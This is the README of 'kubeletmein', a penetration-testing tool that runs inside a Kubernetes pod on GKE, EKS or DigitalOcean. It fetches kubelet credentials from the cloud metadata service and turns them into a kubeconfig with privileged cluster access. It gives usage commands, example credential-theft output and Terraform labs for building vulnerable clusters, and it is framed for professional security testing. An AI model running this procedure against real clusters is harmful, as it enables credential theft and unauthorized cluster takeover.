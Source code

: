 # Kubeletmein

This is a simple penetration testing tool which takes advantage of public cloud provider approaches to providing kubelet credentials to nodes in a Kubernetes cluster in order to gain privileged access to the k8s API. This access can then potentially be used to further compromise the applications running in the cluster or, in many cases, access secrets that facilitate complete control of Kubernetes.

## How it works

`kubeletmein` is a simple Go binary that is designed to be run from a pod inside your target cluster. Typically this will be either via exploiting a weakness in a web application running on Kubernetes or, perhaps an internal penetration test where the client has given you exec access into a pod. Download the single file and run it with `kubeletmein generate`.

It autodetects the provider it is being run on, reads kubelet credentials from the cloud provider metadata service and configures a kubeconfig file that you can use with `kubectl` to access the API.

There's more info in our blog post at [https://www.4armed.com/blog/hacking-kubelet-on-gke/](https://www.4armed.com/blog/hacking-kubelet-on-gke/).

## Supported providers

### GKE

GKE is fully supported when the metadata concealment is not enabled, shielded VMs are not in use and/or Workload Identity is not utilised. Out of these, only shielded VMs are a default in the most recent version of GKE at the time of writing.

### EKS

EKS support initially added by [@airman604](https://github.com/airman604) based on the AWS EKS [bootstrap script](https://github.com/awslabs/amazon-eks-ami/blob/master/files/bootstrap.sh). This has now been expanded to provide support for various different types of user-data encountered with EKS. Specifically it will support cloud-config format and shell script formats. In the latter case it tries to parse the command line arguments for `/etc/eks/bootstrap.sh` and retrieve the values it needs from there.

### Digital Ocean

By default, DO provides creds by metadata and this cannot be disabled.

### AKS

Microsoft's Azure Kubernetes Services is _not_ vulnerable to the same issue. It provides kubelet credentials to its VMs via a local file `/var/lib/waagent/ovf-env.xml`. No sensitive data relating to cluster credentials is accessible via the metadata service and, thereby, from pods deployed to nodes. You can find more information about the custom-data approach adopted by Microsoft at [https://docs.microsoft.com/en-us/azure/virtual-machines/custom-data](https://docs.microsoft.com/en-us/azure/virtual-machines/custom-data).


## Installation

It's a single binary compiled for Linux. Download it with `cURL` or `wget` from the releases page at [https://github.com/4armed/kubeletmein/releases](https://github.com/4armed/kubeletmein/releases) or use our container image [4armed/kubeletmein](https://hub.docker.com/repository/docker/4armed/kubeletmein).

## How to

There is now just a single `generate` command which will try to autodetect the cloud provider by default. You can override this with the `--provider` flag if required. Other options can be displayed using `-h`.

### GKE

```bash
root@kubeletmein-vulnerable:/# kubeletmein generate
2021-03-10T19:56:00Z [ℹ]  running autodetect
2021-03-10T19:56:00Z [ℹ]  GKE detected
2021-03-10T19:56:00Z [ℹ]  fetching kubelet creds from metadata service
2021-03-10T19:56:00Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig.yaml
2021-03-10T19:56:00Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-10T19:56:00Z [ℹ]  using bootstrap-config to request new cert for node: gke-kubeletmein-kubeletmein-vulnerabl-a7a330f6-3w52
2021-03-10T19:56:00Z [ℹ]  Using bootstrap kubeconfig to generate TLS client cert, key and kubeconfig file
2021-03-10T19:56:00Z [ℹ]  No valid private key and/or certificate found, reusing existing private key or creating a new one
2021-03-10T19:56:00Z [ℹ]  Waiting for client certificate to be issued
2021-03-10T19:56:01Z [ℹ]  got new cert and wrote kubeconfig
2021-03-10T19:56:01Z [ℹ]  now try: kubectl --kubeconfig kubeconfig.yaml get pods

root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig.yaml get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          85s
```

### EKS

```bash
root@kubeletmein-vulnerable:/# kubeletmein generate
2021-03-10T20:09:35Z [ℹ]  running autodetect
2021-03-10T20:09:35Z [ℹ]  EKS detected
2021-03-10T20:09:35Z [ℹ]  fetching cluster information from the metadata service
2021-03-10T20:09:39Z [ℹ]  parsing user-data
2021-03-10T20:09:39Z [ℹ]  wrote kubeconfig
2021-03-10T20:09:39Z [ℹ]  now try: kubectl --kubeconfig kubeconfig.yaml get pods

root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig.yaml get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          8m46s
```

### DigitalOcean

```bash
root@kubeletmein-vulnerable:/# kubeletmein generate
2021-03-10T11:57:53Z [ℹ]  running autodetect
2021-03-10T11:57:53Z [ℹ]  DigitalOcean detected
2021-03-10T11:57:53Z [ℹ]  fetching kubelet creds from metadata service
2021-03-10T11:57:53Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig.yaml
2021-03-10T11:57:53Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-10T11:57:53Z [ℹ]  using bootstrap-config to request new cert for node: kubeletmein-pool-87nm2
2021-03-10T11:57:53Z [ℹ]  Using bootstrap kubeconfig to generate TLS client cert, key and kubeconfig file
2021-03-10T11:57:53Z [ℹ]  Waiting for client certificate to be issued
2021-03-10T11:57:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-10T11:57:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig.yaml get pods

root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig.yaml get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          2m30s
```

## Testing

### Terraform

To simplify the process, if you want to fire up some clusters to test this on, there are example Terraform configurations provided in the `deploy/terraform` directory. There is one per cloud provider supported. You will need to provide credentials for the provider. If you're not sure how to do this head over to the Terraform website and checkout the relevant provider docs.

- AWS - [https://registry.terraform.io/providers/hashicorp/aws/latest/docs](https://registry.terraform.io/providers/hashicorp/aws/latest/docs)

- GCP - [https://registry.terraform.io/providers/hashicorp/google/latest/docs](https://registry.terraform.io/providers/hashicorp/google/latest/docs)

- Digital Ocean - [https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs](https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs)

Each folder has a `Makefile` you can use if you wish to init, plan and apply the configs. You can update the `terraform.tfvars` with the necessary changes or set `TF_VAR_xx` variables. However you prefer.

The plans will create a cluster and then deploy the `4armed/kubeletmein` container image in a pod. You can then exec into this pod and run the tool. Here is output from running this on GKE.

```bash
$ kubectl exec -ti kubeletmein-vulnerable -- bash
root@kubeletmein-vulnerable:/# kubeletmein generate
2021-03-10T19:56:00Z [ℹ]  running autodetect
2021-03-10T19:56:00Z [ℹ]  GKE detected
2021-03-10T19:56:00Z [ℹ]  fetching kubelet creds from metadata service
2021-03-10T19:56:00Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig.yaml
2021-03-10T19:56:00Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-10T19:56:00Z [ℹ]  using bootstrap-config to request new cert for node: gke-kubeletmein-kubeletmein-vulnerabl-a7a330f6-3w52
2021-03-10T19:56:00Z [ℹ]  Using bootstrap kubeconfig to generate TLS client cert, key and kubeconfig file
2021-03-10T19:56:00Z [ℹ]  No valid private key and/or certificate found, reusing existing private key or creating a new one
2021-03-10T19:56:00Z [ℹ]  Waiting for client certificate to be issued
2021-03-10T19:56:01Z [ℹ]  got new cert and wrote kubeconfig
2021-03-10T19:56:01Z [ℹ]  now try: kubectl --kubeconfig kubeconfig.yaml get pods

root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig.yaml get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          85s
```

## Contributing

Please submit pull requests on a separate branch. We welcome all improvements. It's not the world's best bit of code.

Please raise issues on GitHub if you find any, including feature requests.

## Disclaimer

This is intended for professional security testing or research. We subscribe to the DBAD philosophy.
